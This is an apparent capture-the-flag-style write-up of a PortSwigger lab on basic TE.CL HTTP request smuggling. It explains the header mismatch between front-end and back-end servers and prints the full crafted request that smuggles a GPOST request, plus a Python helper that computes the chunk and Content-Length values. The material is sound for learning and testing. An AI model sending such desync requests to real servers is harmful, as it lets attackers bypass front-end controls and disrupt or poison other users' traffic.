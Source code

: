 # HTTP request smuggling, basic TE.CL vulnerability | Jan 27, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl), you'll learn: HTTP request smuggling, basic TE.CL vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127190609.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127190619.png)

We can try to test the web application is vulnerable to HTTP request smuggling.

Let's send this request to Burp Suite's Repeater:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127190655.png)

First, we can try to test TE.CL HTTP request smuggling, which is the front-end server uses `Transfer-Encoding` header and the back-end server uses `Content-Length` header.

**But before we do that, we need to ensure that the "Update Content-Length" option is unchecked, and show non-printable chars:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193636.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193647.png)

**Then, change the request method to POST:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193747.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127193754.png)

**After that, we can build our smuggling request:**
```http
POST / HTTP/1.1
Host: 0a7700350455b0c2c1d18a7800ee0090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

The front-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 65 (In hex) bytes long, up to the start of the line following `smuggled=yes`. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the `Content-Length` header and determines that the request body is 4 bytes long (`65\r\n`), up to the start of the line following `65`. The following bytes, starting with `GPOST`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

> Note: You need to include the trailing sequence `\r\n\r\n` following the final `0`. Which is pressing "Enter" twice.

**Hence, the smuggled request will be:**
```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

**To count the chunk's length and smuggled `Content-Length`, I'll write a Python script:**
```py
#!/usr/bin/env python3

class Counter:
    def countLength(self, string):
        try:
            print(f'[+] Smuggled Content-Length: {len(string.encode("utf-8"))}')
        except:
            print('[-] Unable to count the smuggled Cotent-Length')

    def countChunkLength(self, string):
        try:
            print(f'[+] Chunk length in decimal: {len(string.encode("utf-8"))}')
            print(f'[+] Chunk length in hex: {hex(len(string.encode("utf-8")))[2:]}')
        except:
            print('[-] Unable to count the chunk length')

def main():
    counter = Counter()

    smuggledContentLengthString = '''\nsmuggled=yes\r\n0\r\n\r\n'''
    counter.countLength(smuggledContentLengthString)

    ChunkLengthString = '''GPOST / HTTP/1.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 11\r\n\r\nsmuggled=yes'''
    counter.countChunkLength(ChunkLengthString)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/Portswigger-Labs/HTTP-Request-Smuggling)-[2023.01.27|20:23:55(HKT)]
└> python3 count_bytes.py
[+] Smuggled Content-Length: 20
[+] Chunk length in decimal: 101
[+] Chunk length in hex: 65
```

**Chunk length:**
```http
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 20\r\n
\r\n
smuggled=yes
```

**Smuggled `Content-Length`:**
```http
\n
smuggled=yes\r\n
0\r\n
\r\n
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-2/images/Pasted%20image%2020230127201218.png)

We successfully smuggled the GPOST request!

# What we've learned:

1. HTTP request smuggling, basic TE.CL vulnerability